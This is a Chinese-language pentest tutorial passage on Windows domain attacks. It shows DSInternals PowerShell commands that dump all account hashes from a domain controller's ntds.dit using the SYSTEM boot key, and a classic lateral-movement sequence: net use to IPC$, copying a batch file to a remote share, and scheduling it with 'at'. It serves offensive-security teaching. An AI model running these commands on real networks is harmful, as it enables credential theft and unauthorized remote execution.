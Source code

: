 **利用 powershell(DSInternals) 分析 hash**

查看 powershell 版本：

```
$PSVersionTable.PSVersion
看第一个Major
或者
Get-Host | Select-Object Version
```

Windows Server 2008 R2 默认环境下 PowerShell 版本 2.0，应该升级到 3.0 版本以上, 需要. NET Framework 4.0

需要文件：

```
ntds.dit(vshadow获取)
system(reg获取)
```

执行命令：

```
允许执行脚本：
Set-ExecutionPolicy Unrestricted
导入模块(测试是win2012\_powershell ver4.0)：
Import-Module .\\DSInternals
(powershell ver5.0)
Install-Module DSInternals
分析hash,并导出到当前目录的hash.txt文件中
1、$key = Get-BootKey -SystemHivePath 'C:\\Users\\administrator\\Desktop\\SYSTEM'
2、Get-ADDBAccount -All -DBPath 'C:\\Users\\administrator\\Desktop\\ntds.dit' -BootKey $key | Out-File hash.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjq57kwNmAKk6AjxKiaDic6zu8ciaNibc4NmiaUF21XOnlczgcsPiamhOLPUKg/640?wx_fmt=png)

这个只是离线分析了 ntds.dit 文件, 其实也可以在线操作,=。=, 不过感觉实战中遇到的会比较少, 毕竟现在主流是 win08 为域控 (以后这个倒不失为一个好方法) 。  

**远程连接 && 执行程序** 

**at&schtasks 需要开启 Task Scheduler 服务**

经典流程：

```
1、进行一个连接
net use \\\\10.10.24.44\\ipc$ 密码 /user:账号
2、复制本地文件到10.10.24.44的share共享目录(一般是放入admin$这个共享地方(也就是c:\\winnt\\system32\\)，或者c$，d$)
copy 4.bat \\\\10.10.24.44\\share
3、查看10.10.24.44服务器的时间
net time \\\\10.10.24.44
4、添加at任务执行
at \\\\10.10.24.44 6:21 \\\\10.10.24.44\\share\\4.bat
这个6:21指的是上午的时间，如果想添加下午的，则是6.21PM
5、查看添加的所有at任务列表(如果执行了得，就不会显示)
at \\\\10.10.24.44
```
